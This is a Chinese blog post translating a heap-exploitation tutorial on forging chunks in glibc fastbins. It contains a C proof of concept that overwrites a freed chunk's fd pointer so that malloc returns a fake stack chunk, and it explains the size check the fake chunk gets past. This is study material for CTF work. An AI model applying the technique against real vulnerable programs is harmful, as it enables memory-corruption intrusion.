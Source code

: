 ```yaml
---
title: Heap Exploitation系列翻译-10 Forging chunks
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


# Forging chunks

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

在堆块被释放后, 堆块会被插入到一个bin链表中. 然而它的指针在程序中依旧是可用的. 如果攻击这控制了这个指针, 那么他/她便可以修改bin的链表结构并插入他/她自己构造的`伪造`堆块. 以下的示例程序展示了在fastbin的释放链表中如何实现这一攻击.

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

伪造堆块的size设置为0x20, 这一就可以通过安全检查"malloc(): memory corruption (fast)", 这是用来检查堆块大小是否在特定fastbin的代销范围内. 同时要注意, 一块已分配的堆块, 它的存储数据起始于'fd'指针所在的地址. 这也就是为什么在上述程序中, `victim`指针指向了'伪造堆块'更前`0x10`(0x8+0x8)字节的位置处.

fastbin的状态变化如下:

1. 'a' freed.
  > head -> a -> tail
2. a's fd pointer changed to point to 'forged chunk'.
  > head -> a -> forged chunk -> undefined (fd of forged chunk will in fact be holding attacker's data)
3. 'malloc' request
  > head -> forged chunk -> undefined
4. 'malloc' request by victim
  > head -> undefined   [ forged chunk is returned to the victim ]

注意以下几点:

* Another 'malloc' request for the fast chunk in the same bin list will result in segmentation fault.
* Even though we request for 10 bytes and set the size of the forged chunk as 32 (0x20) bytes, both fall in the same fastbin range of 32-byte chunks.
* This attack for small and large chunks will be seen later as 'House of Lore'.
* The above code is designed for 64-bit machines. To run it on 32-bit machines, replace `unsigned long long` with `unsigned int` as pointers are now 4 bytes instead of 8 bytes. Also, instead of using 32 bytes as size for forged chunk, a small of the size of around 17 bytes should work.

* 如果这里同一个bin链表再进行一次'malloc'申请fast chunk将导致段错误(segmentation fault)
* 尽管我们申请10字节大小并且设置伪造堆块的大小为32(0x20)bytes, 但是都在32bytes的fastbins堆块范围内.
* 换作small chunk和large chunk的攻击方法我们将在'House of Lore'见到
* 上述代码运行在64位机器上, 如果要在32位机器上运行, 请将`unsigned long long`换成`unisgned int`, 因为指针长度由8bytes变成了4bytes. 同样, 相比为伪造堆块使用32bytes, 这里用更小的17bytes左右也能奏效.
